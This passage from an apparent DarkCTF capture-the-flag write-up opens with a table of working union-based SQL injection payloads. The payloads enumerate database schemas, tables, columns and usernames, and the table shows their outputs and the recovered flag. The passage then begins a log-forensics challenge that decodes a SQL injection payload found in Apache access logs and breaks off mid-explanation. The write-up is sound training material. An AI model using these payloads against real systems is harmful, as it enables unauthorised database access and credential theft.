 Payload | Result | Summary
--------|--------|--------
`' union select 1, 2, group_concat("~", schema_name, "~") from information_schema.schemata where '1' = '1` | `~information_schema~,~id14831952_security~,~mysql~,~performance_schema~,~sys~` | Number of columns of current table and databases names
`' union select 1, 2, group_concat("~", table_name, "~") from information_schema.tables where table_schema='id14831952_security` | `~emails~,~referers~,~uagents~,~users~` | Table names from id14831952_security
`' union select 1, 2, group_concat("~", column_name, "~") from information_schema.columns where table_name='users` | `~id~,~username~,~password~,~USER~,~CURRENT_CONNECTIONS~,~TOTAL_CONNECTIONS~` | Column names from table users
`' union select 1, 2, group_concat("~", username, "~") from users where 'a'='a` | `~LOL~,~Try~,~fake~,~its secure~,~not~,~dont read~,~try to think ~,~admin~,~flag~` | Values from column username, table users
`' union select id, password, username from users where username='flag` | `darkCTF{uniqu3_ide4_t0_find_fl4g}` | Got the flag, it was in the password column

Flag: darkCTF{uniqu3_ide4_t0_find_fl4g}

## <a name="apache-logs"></a> Apache Logs
#### Description 
>Our servers were compromised!! Can you figure out which technique they used by looking at Apache access logs.
>
>flag format: DarkCTF{}

### Solution
We get a text file with logs of the requests made. For example:
```text
192.168.32.1 - - [29/Sep/2015:03:28:43 -0400] "GET /dvwa/robots.txt HTTP/1.1" 200 384 "-" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36"
```

Looking into them, we can see that someone makes some login attempts, a registration and it tries a few endpoints. By the final of the file we have some SQL injection attempts. There are 3 interesting logs, let us look into them.

```text
192.168.32.1 - - [29/Sep/2015:03:37:34 -0400] "GET /mutillidae/index.php?page=user-info.php&username=%27+union+all+select+1%2CString.fromCharCode%28102%2C+108%2C+97%2C+103%2C+32%2C+105%2C+115%2C+32%2C+83%2C+81%2C+76%2C+95%2C+73%2C+110%2C+106%2C+101%2C+99%2C+116%2C+105%2C+111%2C+110%29%2C3+--%2B&password=&user-info-php-submit-button=View+Account+Details HTTP/1.1" 200 9582 "http://192.168.32.134/mutillidae/index.php?page=user-info.php&username=something&password=&user-info-php-submit-button=View+Account+Details" "Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.101 Safari/537.36"
```
Notice that the `username` parameter contains what appears to be a SQLi payload. URL decoding it gives us `' union all select 1,String.fromCharCode(102, 108, 97, 103, 32, 105, 115, 32, 83, 81, 76, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110),3 --+`. I used Javascript to convert the integers to characters with the next two lines of code:
